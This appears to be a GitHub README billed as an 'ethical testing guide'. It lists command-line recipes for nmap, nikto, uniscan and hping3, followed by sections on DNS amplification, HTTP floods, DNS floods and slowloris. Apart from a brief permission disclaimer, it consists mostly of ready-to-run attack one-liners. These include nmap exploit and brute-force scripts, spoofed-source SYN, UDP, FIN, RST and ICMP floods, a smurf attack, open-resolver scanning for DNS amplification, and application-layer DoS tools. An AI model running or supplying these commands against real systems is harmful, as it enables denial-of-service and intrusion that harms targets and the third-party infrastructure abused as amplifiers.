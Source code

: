 # This is an Ethical Testing Guide

The following Guid includes commands in the following:

* #### `nmap`

* #### `nikto`

* #### `uniscan`

* #### `hping3`


***
Author has submitted the code for educational purposes only. Author doesn't hold any responsibility for wrong usage of this intellectual property! 

```diff
-  NEVER PERFORM ETHICAL HACKING WITHOUT THE WRITTEN PERMISSION FROM THE PRODUCT OWNER, YOU HAVE BEEN WARNED!
```
***

## Nmap

Nmap is a security scanner, originally written by Gordon Lyon, used to discover hosts and services on a computer network, thus building a "map" of the network.


| Test Case | Command |
| :--- | :--- |
| Scan the target for vulnerabilities | `nmap -Pn --script vuln <target.com>` | 
| Actively exploit detected vulnerabilities | `nmap --script exploit -Pn <target.com` |
| Brute Force Passwords | `nmap --script brute -Pn <target.com>` |
| Test if target is vulnerable to DoS | `nmap --script dos -Pn <target.com>` |

## Nikto

Nikto Web Scanner is a Web server scanner that tests Web servers for dangerous files/CGIs, outdated server software and other problems. It performs generic and server type specific checks. It also captures and prints any cookies received

| Test Case | Command |
| :---  | :--- |
| SQL Injection | `nikto -Tuning 9 -h <target.com>` |
| DoS Check | `nikto -Tuning 6 -h <target.com>` |
| Perform check on suspicious files, misconfiguration leaks, etc. | `nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host <target.com>` |

## Uniscan

Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner.

| Test Case | Command |
| :---  | :--- |
| Perform file checks | `uniscan -u <target.com> -w` |
| Perform `robots.txt` and `sitemap.xml` checks | `uniscan -u <target.com> -e` |
| Perform Dynamic Check | `uniscan -u <target.com> -d` |
| Perform Static Check | `uniscan -u <target.com> -s` |
| Perform Stress Check | `uniscan -u <target.com> -r` |

## Hping3 

*Additional reading prior to performing actions below is strongly recommended! You have been warned!

hping is a command-line oriented TCP/IP packet assembler/analyzer. The interface is inspired to the ping(8) unix command, but hping isn’t only able to send ICMP echo requests. It supports TCP, UDP, ICMP and RAW-IP protocols, has a traceroute mode, the ability to send files between a covered channel, and many other features.

| Test Case | Command |
| :--- | :---  | 
| Check whether a host is alive (when PING is blocked) - sends an RST response | `hping3 -c 2 -V -p 80 -s 5050 -a <target.com>` |
| Perform DoS attack | `hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE` |
| UDP flood | `hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP` |
| TCP FIN flood | `hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP` |
| TCP RST flood | `hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP` |
| PUSH and ACK floods | `hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP` |
| ICMP and IGMP floods | `hping3 --flood --rand-source -1 -p TARGET_PORT TARGET_IP` |
| Smurf attack | `hping3 --icmp --spoof TARGET_IP BROADCAST_IP` |

***
```diff
- Additional studying and training is recommended below this point
```
***

## DNS Amplification

You need to have a recursive DNS server which has a karge file on the cache. You are supposed to use
<a href="https://www.infosec-ninjas.com/tsunami">Tsunami</a>

Example of the attack can be as follows:

`./tsunami -o recursive_dns.txt -1 4 -e 172.0.0.0/8`

Then it's possible to attack the target with using these DNS Servers as an amplifier:

`./tsunami -s TARGET_IP -n pentest.blog -p 3 -f recursive_dns.txt`

Where 
`-s` is the target IP address
`-n` optional doman name to probe
`-f` the open recursive DNS servers file for the attack
`-p` number of packets to be sent per DNS server

## HTTP Flood

HTTP flood is the most common attack that targeting application layer. It’s more difficult to detect than network layer attacks because requests seem to be legitimate. Since the 3-way handshake has already been completed, HTTP floods are fooling devices and solutions which are only examining layer 4.

You will need <a href="https://github.com/grafov/hulk/blob/master/hulk.py">HULK</a> for this:

`python hulk.py -site TARGET_SITE`

## DNS Flood

Domain Name System(DNS) is the protocol used to resolve domain names into IP addresses.

Like other flood attacks, the aim of DNS flood attacks is sending high-volume DNS requests to the DNS application protocol. The DNS server overwhelmed and unable to process all of the legitimate requests from other users.

You will need <a href="https://sourceforge.net/projects/netstressng/">netstress</a>:

`netstress.fullrandom -d TARGET_DNS_SERVER -a dns -t a -n 4 -P 53`

Where
`-d` is the destination address
`-a` is the type of attack
`-t` is the type of DNS query
`-n` is the number of processes
`-P` is the destination port

## Low and Slow Attacks

Unlike floods, low and slow attacks do not require a huge amount of data traffic. These types of attacks target application or server resources.

They are hard to detect because the traffic appears to occur at normal rates and legitimate.

My favorite tool is <a href="https://github.com/llaera/slowloris.pl">slowloris</a>:

| Steps | Command |
| :--- | :--- |
| Start an attack | `./slowloris.pl -dns TARGET_URL` |
| Change the port | `./slowloris.pl -dns TARGET_URL -port 80 -num 200` |
| Change Timeout value | `./slowloris.pl -dns TARGET_URL -port 80 -num 200 -timeout 30` |
| Attack an HTTPS website | `./slowloris.pl  -dns TARGET_URL -port 443 -timeout 30 -num 200 -https` |


```diff
+ You are encouraged to make pull requests and add more tools
``` 
